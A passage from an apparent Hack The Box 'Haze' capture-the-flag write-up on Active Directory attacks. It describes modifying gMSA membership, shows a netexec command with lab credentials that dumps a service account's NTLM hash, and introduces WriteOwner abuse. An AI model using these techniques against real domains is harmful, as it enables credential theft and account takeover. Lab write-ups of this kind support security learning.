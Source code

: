 - The script **connects to the LDAP server**.
- Modifies the **`msDS-GroupMSAMembership`** attribute on `Haze-IT-Backup`.
- It **assigns permissions** (using a security descriptor) to grant control over the account.
- Prints `[✅] Modification successful!` , otherwise shows the error.

```bash
┌──(root㉿pain)-[/home/pain/HTB/Season7/Haze]
└─# netexec ldap 10.10.11.61 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'  --gmsa
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: 735c02c6b2dc54c3c8c6891f55279ebc
```

![Screenshot 2025-04-01 at 12.43.40 AM.png](/assets/Images/HTB_Haze/Screenshot_2025-04-01_at_12.43.40_AM.png)

## WriteOwner Abuse

`HAZE-IT-BACUP$` has a WriteOwner to `SUPPORT_SERVICES`

![Screenshot 2025-03-31 at 9.21.02 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_9.21.02_PM.png)

```bash
IP=10.10.11.61
```

